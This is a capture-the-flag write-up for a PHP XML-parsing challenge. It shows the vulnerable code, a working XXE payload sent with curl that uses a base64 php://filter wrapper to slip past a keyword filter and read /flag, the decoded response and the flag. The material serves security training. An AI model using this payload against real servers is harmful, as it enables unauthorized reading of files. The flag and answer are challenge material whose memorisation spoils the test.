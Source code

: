 # Write up

1. According to the code, this is xxe injection.

```
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    header("Content-Type: text/plain");
    $d = new DOMDocument();
    $data = file_get_contents("php://input");
    if(preg_match('/file|rot13/i', $data))
    {
        die('illegal!');
    }
    $d->loadXML($data, LIBXML_BIGLINES | LIBXML_COMPACT | LIBXML_DTDVALID | LIBXML_NOBLANKS | LIBXML_NOERROR | LIBXML_NOWARNING | LIBXML_NOENT);

    if ($d->validate()) {
        show($d, "");
    } else {
        echo "Invalid";
    }
```

2. Prepare the xxe payload and use curl to make POST request.
```
curl -d '<?xml version="1.0"?>  
<!DOCTYPE root [  
<!ELEMENT root (first, second, third)> 
<!ELEMENT first (#PCDATA)>  
<!ELEMENT second (#PCDATA)>  
<!ELEMENT third (#PCDATA)>  
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">]>   
<!-- Create a XML following the DTD -->  
<root> 
<first>1</first>  
<second>&xxe;</second>  
<third>World</third> 
</root>' -H "Content-Type: text/plain" -X POST http://34.136.219.163:31002/
```

3. Decode the base64 string from the response.
```
<!-- Create a XML following the DTD -->
<root>
 <first>
  1
 </first>
 <second>
  TU9DU0NURntUaDFzXzFzX0V6X2J1dF92YWxpZH0K
 </second>
 <third>
  World
 </third>
</root>
```



## flag
MOCSCTF{Th1s_1s_Ez_but_valid}
